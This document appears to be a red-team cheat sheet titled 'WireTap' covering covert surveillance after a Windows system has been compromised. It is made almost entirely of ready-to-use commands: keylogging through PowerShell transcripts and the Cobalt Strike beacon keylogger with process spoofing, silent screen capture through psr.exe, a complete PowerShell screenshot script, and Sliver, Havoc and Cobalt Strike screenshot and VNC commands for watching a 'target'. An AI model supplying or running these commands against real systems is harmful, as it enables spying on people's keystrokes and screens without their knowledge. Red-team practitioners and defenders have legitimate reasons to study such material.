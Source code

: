 # WireTap

## 01 - Keylogging

### 1.1 - Living off the Land

- Execute the transcript log.

```
PS C:\> Start-Transcript -Path keylogger.log
```

- Stop the transcript log.

```
PS C:\> Stop-Transcript
```

### 1.2 - Sliver

TODO: Fill this info

### 1.3 - Covenant

TODO: Fill this info

### 1.4 - Cobalt Strike

This will spawn to a child process when using the spawnto beacon command otherwise it'll use the rundll32 as default. You can optionally spoof to another process

`beacon> keylogger <pid> <arch>`

## 02 - Screenshots

### 2.1 - Command Prompt

```
C:\> psr.exe /start /output D:\screenshots.zip /sc 1 /gui 0
```

### 2.2 - Powershell Script

`$ cat screenshot.ps1`

---

```powershell
Param(  
    [Parameter(Mandatory = $true)][string]$Path  
)  
  
$FileName = "$Env:COMPUTERNAME - $(Get-Date -Format yyyy-MM-dd_HHmmss).bmp"  
$File = "$Path\$FileName"  
  
Add-Type -AssemblyName System.Windows.Forms  
Add-Type -AssemblyName System.Drawing  
$Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen  
$Width = $Screen.Width  
$Height = $Screen.Height  
$Left = $Screen.Left  
$Top = $Screen.Top  
  
$bitmap = New-Object System.Drawing.Bitmap $Width, $Height  
$graphic = [System.Drawing.Graphics]::FromImage($bitmap)  
$graphic.CopyFromScreen($Left, $Top, 0, 0, $bitmap.Size)  
$bitmap.Save($File)   
  
Write-Output "Screenshot saved to:"  
Write-Output $File
```

### 2.3 - Sliver

```
sliver (IMPLANT_NAME) > screenshot
```

### 2.4 - Havoc

```
Demon » screenshot
```

### 2.5 - Cobalt Strike

This will spawn to a child process when using the `spawnto` beacon command otherwise it'll use the `rundll32` as default. You can optionally spoof to another process.

```
beacon> screenshot

beacon> screenshot <pid> <arch> <seconds>

beacon> printscreen

beacon> screenwatch
```

## 03 - VNC Desktop

### 3.1 - Cobalt Strike

Launch a VNC client to spy the target. My recommendation is use `low` quality option to get better surveillance on the target.

```
beacon> desktop <pid> <arch> [low | high]
```

---
## References

- [PSR LOLBas](https://lolbas-project.github.io/lolbas/Binaries/Psr/)